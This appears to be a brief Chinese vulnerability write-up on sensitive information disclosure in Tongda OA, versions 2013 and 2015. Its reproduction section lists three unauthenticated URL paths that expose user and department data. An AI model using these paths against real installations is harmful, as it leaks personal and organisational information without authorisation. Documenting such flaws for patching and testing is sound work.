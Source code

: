 ```yaml
---
title: "通达oa ⻚面敏感信息泄露"
id: zhfly3334
---
```


# 通达oa ⻚面敏感信息泄露

## 一、漏洞简介

## 二、漏洞影响

2013、2015版本

## 三、复现过程

POC:

```
http://0-sec.org/general/get_userinfo.php
http://0-sec.org/general/ipanel/user/query.php
http://0-sec.org/general/info/dept/ 
```